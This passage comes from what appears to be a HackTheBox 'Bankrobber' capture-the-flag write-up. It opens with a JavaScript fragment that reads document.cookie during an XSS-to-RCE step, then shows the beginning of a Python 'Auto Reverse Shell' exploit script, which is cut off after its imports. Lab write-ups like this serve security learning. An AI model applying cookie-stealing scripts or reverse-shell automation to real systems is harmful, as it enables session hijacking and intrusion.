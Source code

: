 ```js
        debug(document.cookie);
}

getRCE()
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-01-HackTheBox-Bankrobber/2021-11-01-HackTheBox-Bankrobber%2007:43:23.png)

Let's automate the whole things now!

# Auto Reverse Shell

We will use our python skeleton to do that

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-01-HackTheBox-Bankrobber/2021-11-01-HackTheBox-Bankrobber%2008:10:53.png)

rev_bank.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Exploit - Auto Reverse Shell - BankRobber - HackTheBox

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler
import os

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()
```